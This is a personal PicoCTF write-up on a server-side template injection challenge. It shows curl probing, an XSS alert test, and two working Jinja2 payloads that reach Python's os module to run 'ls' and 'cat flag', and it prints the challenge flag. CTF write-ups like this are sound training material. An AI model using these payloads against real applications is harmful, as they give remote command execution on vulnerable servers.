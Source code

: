 ```yaml
---
title: 'PicoCTF Writeup #492'
date: 2025-08-19T11:09:54+07:00
draft: false
description: ''
tags: ['CTF', 'ssti']
---
```



## PicoCTF Writeup – Server-Side Template Injection (SSTI)

Recently, I played around with a PicoCTF [challenge 492](https://play.picoctf.org/practice/challenge/492). The challenge looked like a simple web app that lets you "announce whatever you want." Naturally, I fired up my terminal and started poking at it with `curl`. By the way, we can also visit the website and experiment with the form instead.

```bash
curl -X GET http://rescued-float.picoctf.net:49878/announce -i
```

Response:

```
HTTP/1.1 405 METHOD NOT ALLOWED
Allow: POST, OPTIONS
```

Looks like only `POST` is allowed, so I retried with:

```bash
curl -X POST http://rescued-float.picoctf.net:49878/announce -i
```

This time, I got a `200 OK`. Sweet — we can actually interact with the app.


## First Thoughts

The description said:

> “I made a cool website where you can announce whatever you want!
> I heard templating is a cool and modular way to build web apps!”

That last line screamed *templating*. My first instinct was to try some basic XSS. Sure enough:

```html
<script>alert("HELO")</script>
```

triggered an alert box. Nice, but XSS wasn’t the way to the flag.


## Pivot to SSTI

The title of the challenge hinted at **Server-Side Template Injection (SSTI)**. From the headers I noticed the app was running **Werkzeug (Python/3.8)**. That strongly suggested **Jinja2** templating under the hood.

I tested with some Jinja syntax:

```
{{}}
```

and got an **Internal Server Error**. That confirmed I was on the right track — this was a template engine at work.


## Digging Deeper

Here’s where I hit a wall. I’d never really done an SSTI attack before. After some research, I learned about Python’s **MRO (Method Resolution Order)** and how it could be abused to reach Python internals, including modules like `os`.

Turns out you can chain through Jinja’s builtins and reach Python’s `os` library. Once you can execute system commands, it’s game over.

Payload to list files:

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```

That revealed a file named `flag`.

Payload to read it:

```jinja
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag').read()}}
```

And boom — got the flag.


## The Flag

```
picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_73c99823}
```


## Takeaways

* Don’t stop at XSS — sometimes it’s just a red herring.
* Jinja2 + careless input handling = a playground for SSTI.
* The Method Resolution Order (MRO) trick is incredibly powerful when exploring Python internals.

This was my first real SSTI exploit, and it was a fun rabbit hole to fall into. Definitely a good reminder of how dangerous improper template handling can be.
